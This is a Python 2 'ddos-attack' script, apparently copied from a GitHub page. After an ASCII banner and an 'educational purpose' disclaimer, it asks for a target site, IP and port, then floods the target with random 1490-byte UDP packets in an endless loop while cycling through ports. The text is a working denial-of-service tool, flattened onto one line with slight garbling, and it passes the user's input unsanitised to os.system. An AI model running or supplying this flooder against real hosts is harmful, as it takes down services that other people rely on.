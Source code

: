 # ddos-attack
import sys import os import time import socket import string import random #Code Time from datetime import datetime now = datetime.now() hour = now.hour minute = now.minute day = now.day month = now.month year = now.year  ############## sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM) bytes = random._urandom(1490) ############# os.system("clear")   print("""\033[1;31m  \033[92m    ___  ___   ___  ___     _ _____ _____ _   ___ _  __   |   \|   \ / _ \/ __|   /_\_   _|_   _/_\ / __| |/ /   | |) | |) | (_) \__ \  / _ \| |   | |/ _ \ (__| ' &lt;    |___/|___/ \___/|___/ /_/ \_\_|   |_/_/ \_\___|_|\_\                                                                         Script By     =>  sneyzer                instagram     =>  _.h4ckers                github        =>  sneyzer  ============================================================ """)  print( """\033[94m ONLY FOR EDUCATIONAL PURPOSE   \033[97m   """) web = raw_input (" Target website   : ") os.system("nslookup %s  " % (web ) print  ip = raw_input("\033[94m[*] \033[91mIP \033[91mTarget \033[97m>>> \033[93m ") port = input("\033[94m[*] \033[91mPORT \033[97m>>> \033[93m ")  os.system("clear") print(" HWV-DDoS ready to Attack.. OK!! ") print(" 8======D     15% ")  time.sleep(2) print(" 8=============D      25% ")  time.sleep(3) print(" 8====================D       50% ")  time.sleep(4) print(" 8=============================D        75% ")  time.sleep(5) print(" 8=====================================D     100% ")  time.sleep(3) sent = 0 while True:      sock.sendto(bytes, (ip,port))      sent = sent + 1      port = port + 1      print "Sent %s packet to %s throught port:%s"%(sent,ip,port)      if port == 65534:        port = 1
